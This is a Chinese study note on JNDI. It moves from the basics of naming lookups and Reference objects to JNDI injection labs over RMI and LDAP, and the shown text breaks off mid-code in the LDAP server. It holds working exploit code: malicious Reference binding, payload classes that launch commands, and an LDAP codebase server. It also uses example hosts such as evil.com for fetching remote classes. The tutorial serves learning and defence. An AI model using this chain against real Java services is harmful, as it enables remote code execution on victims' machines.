





## 概述

临时记录以下JNDI注入的学习笔记，最近学的东西太多了，感觉知识要不进脑子了，学的东西并没有完全理解，对原理还有应用的攻击手法理解都不是很深......

推荐先理解JNDI的基本概念，然后再去学习JNDI的原理以及注入什么的，要不然真的学起来非常难受......

我这里是缝合了以下博客来总结的内容，希望可以把基础知识和JNDI攻击结合起来，写的更加适合小白一些......

[JNDI学习总结（一）](https://blog.csdn.net/wn084/article/details/80729230)

[JNDI学习总结（二）](https://blog.csdn.net/wn084/article/details/80736253)

[mi1k7ea师傅: JNDI原理 + JNDI注入 + 高版本JDK绕过](https://www.mi1k7ea.com/2019/09/15/%E6%B5%85%E6%9E%90JNDI%E6%B3%A8%E5%85%A5/)

[oracle JNDI官方文档](https://docs.oracle.com/javase/tutorial/jndi/overview/index.html)

## 什么是JNDI？

JNDI（Java Naming and Directory Interface，Java命名和目录接口）是J2EE规范中的核心部分之一。它为Java应用程序提供了一种命名和目录服务的统一接口，允许程序员查找和使用各种资源（如数据库、远程对象等）。许多专家认为，透彻理解JNDI的意义和作用，是掌握J2EE特别是EJB的关键。

那么，JNDI究竟解决了什么问题？我们可以通过对比“没有JNDI”和“使用JNDI”的两种方式，直观了解其作用。

### 没有JNDI时的开发方式

在传统开发中，程序员需要直接通过JDBC驱动和数据库连接字符串访问数据库。以下是一个简单的例子：

```java
Connection conn = null;
try {
    Class.forName("com.mysql.jdbc.Driver");
    conn = DriverManager.getConnection("jdbc:mysql://MyDBServer?user=xxx&password=xxx");
    // 执行业务逻辑
    conn.close();
} catch (Exception e) {
    e.printStackTrace();
} finally {
    if (conn != null) {
        try {
            conn.close();
        } catch (SQLException e) {}
    }
}
```

### 问题分析

这种直接编码的方式在小型项目中可行，但在复杂或长期维护的项目中会带来以下问题：

1. **配置耦合**：数据库服务器地址、用户名、密码等硬编码信息需要频繁修改。
2. **灵活性不足**：如果更换数据库（如从MySQL切换到Oracle），需要修改驱动程序类名、连接字符串等。
3. **不利于扩展**：系统运行时可能需要动态调整连接池参数，而直接编码的方式难以适应。

### 使用JNDI的开发方式

通过JNDI，可以将这些配置从程序中抽离出来，由容器进行管理。开发人员只需通过名称引用资源，而不必关心资源的具体配置。

### 配置示例

以JBoss为例，首先在容器中定义数据源：

**修改`mysql-ds.xml`文件**：

```xml
<datasources>
    <local-tx-datasource>
        <jndi-name>MySqlDS</jndi-name>
        <connection-url>jdbc:mysql://localhost:3306/lw</connection-url>
        <driver-class>com.mysql.jdbc.Driver</driver-class>
        <user-name>root</user-name>
        <password>rootpassword</password>
    </local-tx-datasource>
</datasources>
```

**Java代码引用数据源**：

```java
Connection conn = null;
try {
    Context ctx = new InitialContext();
    DataSource ds = (DataSource) ctx.lookup("java:MySqlDS");
    conn = ds.getConnection();
    // 执行业务逻辑
    conn.close();
} catch (Exception e) {
    e.printStackTrace();
} finally {
    if (conn != null) {
        try {
            conn.close();
        } catch (SQLException e) {}
    }
}
```

### 优势分析

使用JNDI后：

1. 程序不再依赖具体的数据库配置信息（如JDBC URL、用户名、密码）。
2. 配置变更时，只需修改容器中的配置文件，无需调整代码。
3. 提升了系统的灵活性和可维护性，支持动态资源调整。

## JNDI的核心角色

### 在J2EE中的作用

JNDI是J2EE规范的重要部分，其核心作用类似“交换机”，为应用程序动态查找资源提供了统一机制。JNDI允许：

- J2EE组件在运行时查找其他组件或服务。
- 容器集中管理资源配置，减少开发人员的工作量。
- 跨环境快速切换（如开发环境和生产环境间的数据库切换）。

### JNDI的技术细节

1. StateFactory与ObjectFactory
   - `StateFactory`负责保存对象的状态（类似于持久化操作）。
   - `ObjectFactory`负责从状态信息中恢复对象实例。
2. SPI机制
   - 通过`jndi.properties`文件配置服务提供者接口（SPI）。
   - 支持灵活扩展，按需加载适配不同的协议和实现。
3. 容器资源管理
   - 从J2EE 1.3开始，资源管理职责从应用程序转移到容器。
   - 应用程序通过`<resource-ref>`引用资源，容器负责解析和管理具体配置。

### 为什么需要JNDI？

从现实场景中可以类比JNDI的作用：

1. 想要联系某人时，首先拨打114查询（`Context ctx = new InitialContext();`）。
2. 获取联系信息后，通过该信息找到目标资源（`ctx.lookup("资源名称");`）。
3. 成功建立联系后，开始与资源交互（如获取数据库连接并操作）。

这种解耦模式不仅提升了开发效率，还增强了系统的弹性和可维护性。

JNDI通过提供一个统一的命名和查找接口，使J2EE应用程序中的资源访问更加灵活和动态化。它不仅解耦了应用程序与具体资源的紧密关联，还为大型企业应用程序的开发和部署提供了便利。

简单来说，JNDI的本质就是给资源起个名字，程序通过名字找到资源。而这种间接寻址方式，是J2EE规范实现灵活性和扩展性的核心基础。

## JNDI代码示例及相关概念

**Java Naming**：命名服务通过键值对的方式为对象创建唯一标识，使得应用程序可以通过名称检索这些对象。

**Java Directory**：目录服务是命名服务的扩展，它不仅允许通过名称检索对象，还支持基于属性的搜索。

**ObjectFactory**：Object Factory允许将存储在命名或目录服务中的对象转换为Java中的对象。例如，它能将RMI、LDAP等服务中的数据转换为Java对象。

JNDI使得开发者能够方便地访问文件系统中的文件、定位远程RMI对象、访问LDAP等目录服务，甚至定位EJB组件。

JNDI注入通常发生在应用程序允许用户输入并通过JNDI查找对象时。攻击者可能通过构造恶意JNDI查找请求，诱使应用加载不安全的远程对象，进而执行恶意代码。这类漏洞的关键在于JNDI能够通过ObjectFactory下载并加载远程类，攻击者可以利用这一点执行任意代码。


### 代码示例

以下代码展示了如何使用JNDI的`bind`和`lookup`方法进行对象的绑定与查找。

定义`Person`类

```java
import java.io.Serializable;
import java.rmi.Remote;
public class Person implements Remote, Serializable {
    private static final long serialVersionUID = 1L;
    private String name;
    private String password;
    public String getName() {
        return name;
    }
    public void setName(String name) {
        this.name = name;
    }
    public String getPassword() {
        return password;
    }
    public void setPassword(String password) {
        this.password = password;
    }
    public String toString() {
        return "name:" + name + " password:" + password;
    }
}
```

服务端代码

```java
import javax.naming.*;
import java.rmi.registry.LocateRegistry;

public class Server {
    public static void initPerson() throws Exception {
        LocateRegistry.createRegistry(6666);  // 创建RMI注册表
        System.setProperty(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        System.setProperty(Context.PROVIDER_URL, "rmi://localhost:6666");
        InitialContext ctx = new InitialContext();
        // 实例化并绑定Person对象
        Person p = new Person();
        p.setName("mi1k7ea");
        p.setPassword("Niubility!");

        ctx.bind("person", p);  // 将person对象绑定到JNDI服务
        ctx.close();
    }
    public static void findPerson() throws Exception {
        InitialContext ctx = new InitialContext();
        Person person = (Person) ctx.lookup("person");  // 查找并返回person对象
        System.out.println(person.toString());
        ctx.close();
    }
    public static void main(String[] args) throws Exception {
        initPerson();  // 初始化并绑定person对象
        findPerson();  // 查找并输出person对象
    }
}
```

在上面的代码中，`initPerson()`方法将`Person`对象通过JNDI绑定到`rmi://localhost:6666`上的JNDI注册表，客户端则通过`findPerson()`方法查找并输出该对象。当然这里是通过一个main函数来同时表示了客户端和服务端。


可以简单比较一下纯RMI写法和使用JNDI检索的写法，在纯RMI写法中的两种典型写法：

```java
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import remote.IRemoteMath;
...
    
    //服务端
    IRemoteMath remoteMath = new RemoteMath();
    LocateRegistry.createRegistry(1099);    
    Registry registry = LocateRegistry.getRegistry();
    registry.bind("Compute", remoteMath);
...
    
    //客户端
    Registry registry = LocateRegistry.getRegistry("localhost");        
    IRemoteMath remoteMath = (IRemoteMath)registry.lookup("Compute");

或

import java.rmi.Naming;
import java.rmi.registry.LocateRegistry;
...

	//服务端
    PersonService personService=new PersonServiceImpl();
    LocateRegistry.createRegistry(6600);
    Naming.rebind("rmi://127.0.0.1:6600/PersonService", personService);
...

	//客户端
	PersonService personService=(PersonService) Naming.lookup("rmi://127.0.0.1:6600/PersonService");
```

而JNDI中相关代码：

```java
import javax.naming.Context;
import javax.naming.InitialContext;
import java.rmi.registry.LocateRegistry;
...
    
	//服务端
	LocateRegistry.createRegistry(6666);
    System.setProperty(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
    System.setProperty(Context.PROVIDER_URL, "rmi://localhost:6666");
    InitialContext ctx = new InitialContext();
	...
    ctx.bind("person", p);
    ctx.close();
...

	//客户端
    InitialContext ctx = new InitialContext();
    Person person = (Person) ctx.lookup("person");
	ctx.close();

或

	//服务端
    Properties env = new Properties();
    env.put(Context.INITIAL_CONTEXT_FACTORY,
            "com.sun.jndi.rmi.registry.RegistryContextFactory");
    env.put(Context.PROVIDER_URL,
            "rmi://localhost:1099");
    Context ctx = new InitialContext(env);
```

**相比之下(这段可以不看)：**

- 服务端：纯RMI实现中是调用java.rmi包内的bind()或rebind()方法来直接绑定RMI注册表端口的，而JNDI创建的RMI服务中多的部分就是需要设置INITIAL_CONTEXT_FACTORY和PROVIDER_URL来指定InitialContext的初始化Factory和Provider的URL地址，换句话说就是初始化配置JNDI设置时需要预先指定其上下文环境如指定为RMI服务，最后再调用javax.naming.InitialContext.bind()来将指定对象绑定到RMI注册表中；
- 客户端：纯RMI实现中是调用java.rmi包内的lookup()方法来检索绑定在RMI注册表中的对象，而JNDI实现的RMI客户端查询是调用javax.naming.InitialContext.lookup()方法来检索的；

简单地说，纯RMI实现的方式主要是调用java.rmi这个包来实现绑定和检索的，而JNDI实现的RMI服务则是调用javax.naming这个包即应用Java Naming来实现的。

### Reference

`Reference` 类可以通俗地理解为一种“指路牌”或者“线索卡片”。它本身不是实际的对象，而是一个“指向”对象的描述信息，用来告诉 JNDI 如何找到或重新创建这个对象。如果有学过`引用`概念的同学应该比较好理解，Reference就像是一个具体对象的引用。

使用Reference对象可以指定工厂来创建一个java对象，用户可以指定远程的对象工厂地址，当远程对象地址用户可控时，这也会带来不小的问题。

**不是直接存对象，而是存“怎么找到这个对象”**
`Reference` 更像是一本说明书，告诉 JNDI：

- 这个对象的类型是什么？
- 这个对象在哪里？
- 需要什么方法或工厂来创建这个对象？

**类比场景**：
想象你有一辆车停在某个停车场，`Reference` 就像是你手上的停车票，上面写了停车场的地址和车位号。当你需要车时，只需要根据停车票去找，而不需要真的随时随地把车带在身边。

**帮助延迟加载对象**
有些对象可能很大，或者需要通过某种特殊方式才能创建出来。直接存储这些对象可能效率低下，或者不实际。因此，JNDI 使用 `Reference` 来保存这些对象的“重建方法”，当需要的时候才真正生成对象。

`Reference` 类包含一些关键的信息，帮助 JNDI 知道如何定位或创建对象：

- **对象类名 [className]**：告诉 JNDI，这个引用对应的对象是什么类型（例如 `javax.sql.DataSource`）。
- **工厂类名 [classFactory]**：告诉 JNDI，这个引用需要哪个工厂类来帮助创建对象。
- **地址（地址属性）[classFactoryLocation]**：可以是额外的线索信息，比如实际的数据库连接字符串等。

### 为什么需要 `Reference`？

直接存储和绑定对象当然是可以的，但在一些复杂场景下，这种方式有明显缺点：

1. **减少直接对象的存储**：
   如果对象特别大，比如一个数据库连接池，直接绑定可能会占用大量内存，而 `Reference` 只存储描述信息，轻量且高效。
2. **支持动态创建**：
   某些对象在绑定的时候可能还不存在，需要 JNDI 动态生成。例如，数据源可以通过工厂类（如 `ObjectFactory`）动态创建，而不是直接绑定一个数据源实例。
3. **便于跨系统共享**：
   `Reference` 提供的是关于对象的信息，而不是对象本身，这使得跨系统共享变得更容易。

举个栗子，假设我们要在 JNDI 中绑定一个数据库连接池。

**直接绑定对象**：
绑定一个具体的 `DataSource` 实例：

```java
InitialContext context = new InitialContext();
DataSource ds = new BasicDataSource();  // 创建一个连接池实例
context.bind("jdbc/myDB", ds);          // 直接绑定
```

**使用 Reference 绑定**： 我们改用 `Reference` 来绑定：

```java
import javax.naming.Reference;

InitialContext context = new InitialContext();

// 创建一个 Reference
Reference ref = new Reference(
    "javax.sql.DataSource",          // 对象的类名
    "com.example.MyDataSourceFactory", // 工厂类的名称，用于创建对象
    null                              // 工厂类的地址（可选）
);

// 将 Reference 绑定到 JNDI
context.bind("jdbc/myDB", ref);
```

在使用时，JNDI 会通过 `MyDataSourceFactory` 动态创建 `DataSource` 对象。

### 远程代码和安全管理器

引用原文链接：https://blog.csdn.net/u011721501/article/details/52316225

Java中的对象分为本地对象和远程对象，本地对象是默认为可信任的，但是远程对象是不受信任的。比如，当我们的系统从远程服务器加载一个对象，为了安全起见，JVM就要限制该对象的能力，比如禁止该对象访问我们本地的文件系统等，这些在现有的JVM中是依赖安全管理器（SecurityManager）来实现的。



JVM中采用的最新模型见上图，引入了“域”的概念，在不同的域中执行不同的权限。JVM会把所有代码加载到不同的系统域和应用域，系统域专门负责与关键资源进行交互，而应用域则通过系统域的部分代理来对各种需要的资源进行访问，存在于不同域的class文件就具有了当前域的全部权限。

关于安全管理机制，可以详细阅读：http://www.ibm.com/developerworks/cn/java/j-lo-javasecurity/

### JNDI安全管理器架构


对于加载远程对象，JDNI有两种不同的安全控制方式，对于Naming Manager来说，相对的安全管理器的规则比较宽泛，但是对JNDI SPI层会按照下面表格中的规则进行控制：



针对以上特性，攻击者可能会找到一些特殊场景，利用两者的差异来执行恶意代码。

## JNDI注入

### 前提条件&JDK防御

要想成功利用JNDI注入漏洞，重要的前提就是当前Java环境的JDK版本，而JNDI注入中不同的攻击向量和利用方式所被限制的版本号都有点不一样。

这里将所有不同版本JDK的防御都列出来：

- JDK 6u45、7u21之后：java.rmi.server.useCodebaseOnly的默认值被设置为true。当该值为true时，将禁用自动加载远程类文件，仅从CLASSPATH和当前JVM的java.rmi.server.codebase指定路径加载类文件。使用这个属性来防止客户端VM从其他Codebase地址上动态加载类，增加了RMI ClassLoader的安全性。
- JDK 6u141、7u131、8u121之后：增加了com.sun.jndi.rmi.object.trustURLCodebase选项，默认为false，禁止RMI和CORBA协议使用远程codebase的选项，因此RMI和CORBA在以上的JDK版本上已经无法触发该漏洞，但依然可以通过指定URI为LDAP协议来进行JNDI注入攻击。
- JDK 6u211、7u201、8u191之后：增加了com.sun.jndi.ldap.object.trustURLCodebase选项，默认为false，禁止LDAP协议使用远程codebase的选项，把LDAP协议的攻击途径也给禁了。

因此，我们在进行JNDI注入之前，必须知道当前环境JDK版本这一前提条件，只有JDK版本在可利用的范围内才满足我们进行JNDI注入的前提条件。

## RMI表攻击客户端

**将恶意的Reference类绑定在RMI注册表中，其中恶意引用指向远程恶意的class文件，当用户在JNDI客户端的lookup()函数参数外部可控或Reference类构造方法的classFactoryLocation参数外部可控时，会使用户的JNDI客户端访问RMI注册表中绑定的恶意Reference类，从而加载远程服务器上的恶意class文件在客户端本地执行，最终实现JNDI注入攻击导致远程代码执行**。


1. 攻击者通过可控的 URI 参数触发动态环境转换，例如这里 URI 为 `rmi://evil.com:1099/refObj`；
2. 原先配置好的上下文环境 `rmi://localhost:1099` 会因为动态环境转换而被指向 `rmi://evil.com:1099/`；
3. 应用去 `rmi://evil.com:1099` 请求绑定对象 `refObj`，攻击者事先准备好的 RMI 服务会返回与名称 `refObj`想绑定的 ReferenceWrapper 对象（`Reference("EvilObject", "EvilObject", "http://evil-cb.com/")`）；
4. 应用获取到 `ReferenceWrapper` 对象开始从本地 `CLASSPATH` 中搜索 `EvilObject` 类，如果不存在则会从 `http://evil-cb.com/` 上去尝试获取 `EvilObject.class`，即动态的去获取 `http://evil-cb.com/EvilObject.class`；
5. 攻击者事先准备好的服务返回编译好的包含恶意代码的 `EvilObject.class`；
6. 应用开始调用 `EvilObject` 类的构造函数，因攻击者事先定义在构造函数，被包含在里面的恶意代码被执行；

### RMI攻击实验

- JDK 1.8.0_73 或其他 1.8 版本（避免 JNDI 劫持的相关安全补丁影响）
- python环境，没有硬性版本要求，只是用来临时搭建一个HTTP文件服务器
- 任意支持 Java 的 IDE 或文本编辑器
- 确保网络环境通畅，用于远程加载 `EvilObject` 的 `.class` 文件。

建议如下文件结构，分级更加清晰：

```
/JNDI-Injection-Lab/
    ├── client/                 # 存放 JNDIClient.java
    ├── server/                 # 存放 RMIService.java
    ├── malicious/              # 存放 EvilObject.java
```

### client.JNDIClient.java

此代码模拟客户端调用 `lookup` 方法，从指定的 RMI 服务中请求对象。

```java
package client;

import javax.naming.Context;
import javax.naming.InitialContext;

public class JNDIClient {
    public static void main(String[] args) throws Exception {
        if (args.length < 1) {
            System.out.println("Usage: java JNDIClient <uri>");
            System.exit(-1);
        }
        String uri = args[0];
        Context ctx = new InitialContext();
        System.out.println("Using lookup() to fetch object with " + uri);
        ctx.lookup(uri);
    }
}
```

编译命令(我使用的是windows，所以这里我以Windows写法为准)：

```cmd
"C:\Program Files\Java\jdk1.8.0_73\bin\javac.exe" JNDIClient.java
```

### malicious.EvilObject.java

这是包含恶意代码的类，当加载时执行任意操作（此处为弹出计算器）。

```java
package malicious;
public class EvilObject {
    public EvilObject() throws Exception {
        Runtime rt = Runtime.getRuntime();
        String[] commands = {"cmd", "/C", "calc.exe"};
        Process pc = rt.exec(commands);
        pc.waitFor();
    }
}
```

```cmd
"C:\Program Files\Java\jdk1.8.0_73\bin\javac.exe" EvilObject.java
```

### server.RMIService.java

实现 RMI 服务端，将恶意对象引用绑定到 RMI 注册表中。

```java
package server;

import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RMIService {
    public static void main(String[] args) throws Exception {
        // 启动 RMI 注册表
        Registry registry = LocateRegistry.createRegistry(1099);

        // 创建 Reference 对象，指向恶意类文件的位置
        Reference refObj = new Reference("malicious.EvilObject", "malicious.EvilObject", "http://127.0.0.1:8080/");
        ReferenceWrapper refObjWrapper = new ReferenceWrapper(refObj);

        // 绑定 ReferenceWrapper 到注册表
        System.out.println("Binding 'refObjWrapper' to 'rmi://127.0.0.1:1099/refObj'");
        registry.bind("refObj", refObjWrapper);
    }
}
```

在`JNDI-Injection-Lab`下使用以下命令编译RMIService.java

```cmd
"C:\Program Files\Java\jdk1.8.0_73\bin\javac.exe" -cp .;"C:\Program Files\Java\jdk1.8.0_73\lib\tools.jar" server/RMIService.java
```

**`-cp` 或 `-classpath`**

`-cp` 参数用于指定编译时的类路径（`classpath`）。它告诉 `javac` 去哪里查找所需的类或库。

- **`.`**：表示当前目录。让编译器从当前目录中查找类或包。
- **`C:\\xxxx\tools.jar`**：表示额外的依赖库路径。这里假设 `RMIService.java` 依赖 `tools.jar` 中的类。

### 运行

**启动 HTTP 服务**

使用python在 `malicious/` 目录下启动 HTTP 服务，让EvilObject.class通过HTTP暴露出去，可以使用以下命令来启动一个临时的HTTP服务：

```java
cd malicious/
python -m http.server 8080
```

可以通过http://localhost:8080来访问到对应的目录即可，说明http环境就起来了



**启动RMI服务端**

在 `JNDI-Injection-Lab` 目录下，运行 RMI 服务。

```cmd
"C:\Program Files\Java\jdk1.8.0_73\bin\java.exe" -cp . server.RMIService
```

**启动JNDI客户端**

在 `JNDI-Injection-Lab` 目录下，运行客户端，指定恶意的 RMI URI。

```cmd
"C:\Program Files\Java\jdk1.8.0_73\bin\java.exe" -cp . client.JNDIClient rmi://127.0.0.1:1099/refObj
```

弹出计算器，恶意代码被执行



在这个场景中，客户端通过 `ctx.lookup(uri)` 获取服务端绑定的对象时，**对象的代码在客户端执行**。这是因为 JNDI 和 RMI 机制会将绑定的对象（或其描述）从服务端传递到客户端，并在客户端尝试加载和使用。注意哈，这个地方和原始的RMI还不一样，让我们来比较一下区别。

**JNDI 的行为**

- **JNDI 在客户端创建对象：**
  - 当客户端通过 `ctx.lookup(uri)` 查找一个对象时，JNDI 可能会返回一个远程对象（如 `Remote` 或 `Reference`），具体行为取决于绑定对象的类型。
  - 如果返回的是 `Reference`，JNDI 会尝试根据 `Reference` 中描述的信息（包括类名和代码位置）**在客户端加载并实例化**对象。
  - 这个机制允许远程代码在客户端执行，因此容易被利用来实现远程代码执行（RCE）。
- **JNDI 特点：**
  - 它更像是“从服务端获取一个类描述，客户端负责加载和实例化”的机制。
  - 通过 `Reference` 加载的类在客户端执行任何构造器逻辑，可能触发恶意代码。

**RMI 的行为**

- **RMI 远程方法调用：**
  - RMI 的目标是让客户端调用服务端对象的方法，而不是在客户端创建服务端对象的实例。
  - 当客户端通过 `Naming.lookup("rmi://...")` 获取一个远程对象时，它实际获取的是该远程对象的**代理（stub）**。
  - 客户端调用的方法实际上是通过代理发送到服务端，由服务端的远程对象在服务端执行方法，然后返回结果给客户端。
- **RMI 特点：**
  - 方法调用总是在服务端执行，客户端仅作为调用的发起者。
  - 客户端不会加载远程对象的类文件，也不会在客户端实例化服务端对象。

### RMI&JNDI主要区别

| 特性             | **JNDI**                               | **RMI**                                                |
| ---------------- | -------------------------------------- | ------------------------------------------------------ |
| **绑定对象**     | 可以是 `Remote`、`Reference` 等类型    | 必须是 `Remote` 类型的远程对象                         |
| **客户端行为**   | 可能加载并实例化服务端描述的类         | 获取远程对象的代理，调用代理方法                       |
| **代码执行位置** | 类的构造方法在客户端执行               | 方法逻辑在服务端执行                                   |
| **典型使用场景** | 资源查找（如数据库连接）等             | 远程方法调用，分布式对象管理                           |
| **安全风险**     | 可能被用来加载和执行恶意类（RCE 漏洞） | 需要明确定义远程接口，但安全性更高(其实也很危险hhhhhh) |

在RMI中调用了InitialContext.lookup()的类有：

```java
org.springframework.transaction.jta.JtaTransactionManager.readObject()
com.sun.rowset.JdbcRowSetImpl.execute()
javax.management.remote.rmi.RMIConnector.connect()
org.hibernate.jmx.StatisticsService.setSessionFactoryJNDIName(String sfJNDIName)
```

在LDAP中调用InitialContext.lookup()的类有：

```java
InitialDirContext.lookup()
Spring's LdapTemplate.lookup()
LdapTemplate.lookupContext()
```

### 总结

其实在[**Mi1k7ea**](https://www.mi1k7ea.com/)大佬的博客中提到了多种攻击方式，但是我觉得其最终原理都是基于修改RMI的注册表，最终使得客户端从RMI的注册中获取到的是一段恶意代码，就这一点就可以概括利用方式了，就是如果我们能拿到RMI注册表修改权限就能写入恶意代码从而入侵客户端。

## LDAP攻击

通过LDAP攻击向量来利用JNDI注入的原理和RMI攻击向量是一样的，区别只是换了个媒介而已，下面就只列下LDAP+Reference的利用技巧，至于JNDI注入漏洞点和前面是一样的就不再赘述了。

### LDAP+Reference攻击实验

环境准备

- JDK 1.8.0_73 或其他 1.8 版本（避免 JNDI 劫持的相关安全补丁影响）
- 任意支持 Java 的 IDE 或文本编辑器

引入以下maven依赖项

```xml
<dependency>
    <groupId>com.unboundid</groupId>
    <artifactId>unboundid-ldapsdk</artifactId>
    <version>6.0.11</version>
    <scope>test</scope>
</dependency>
```

代码结构如下：

```
/jndi-labs2/
    ├── EvilObject.java	# 恶意代码
    ├── LadpClient.java	# Ladp客户端
    ├── LadpServer.java # Ladp服务端
```

我这里就不本地javac，然后java再去这样执行了，直接用IDEA进行调试了，还是IDEA方便

### EvilObject

```java
package jndi_labs2;
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.IOException;
import java.util.Hashtable;
public class EvilObject implements ObjectFactory {
    static {
        try {
            Runtime.getRuntime().exec("cmd /c start");
        } catch (IOException ignore) {}
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

### LadpServer

```java
package jndi_labs2;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;
public class LdapServer {
    private static final String LDAP_BASE = "dc=example,dc=com";
    public static void main (String[] args) {
        String url = "http://127.0.0.1:8000/#jndi_labs2.EvilObject";
        int port = 1234;
        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));
            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(url)));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port);
            ds.startListening();

        } catch ( Exception ignore ) { }
    }
    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;
        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }
        /**
         * 客户端请求后会执行该方法
         */
        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
            Entry e = new Entry(base);
            try {
                sendResult(result, base, e);
            }
            catch (Exception ignore) { }
        }
